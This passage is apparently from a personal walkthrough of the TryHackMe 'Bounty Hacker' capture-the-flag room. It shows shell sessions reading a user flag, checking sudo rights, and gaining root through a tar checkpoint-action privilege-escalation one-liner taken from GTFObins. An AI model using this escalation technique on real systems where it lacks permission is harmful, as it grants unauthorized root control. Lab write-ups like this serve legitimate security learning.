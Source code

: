 ```

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
```
OK Now lets look around.
```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{<insert-user-flag-here>}
```
If I am honest I then did the sudo -l check and when it asked for the password, I forgot that I had it. I then spent 20 minutes figuring out what to do. Checked for SUID bits, had a look around the machine, and the lightbulb moment that I needed, came AFTER I found the .ssh file. I thought "I'll use that to get a proper login", which is where I remembered I actually have the bloody password in the first place.
Now with my password, the rest was smooth going.
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
So a quick look at GTFObins for tar and I had the command to give me privalage escalation, followed by a quick search for the flag.
```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos
# cd /root
# ls
root.txt
# cat root.txt	
THM{<insert-root-flag-here>}
# 
```
I really enjoyed this CTF. Nice story, TBH I was put off a little by the title as I didn't think that I would be good enough to do it, but more and more I'm finding as long as you are methodical and follow a plan, things work out.

This room was created by [Sevuhl](https://tryhackme.com/p/Sevuhl) and one I really enjoyed.

Thanks Sevuhl for your time.

Regards

Karti

<script src="https://tryhackme.com/badge/65208"></script>


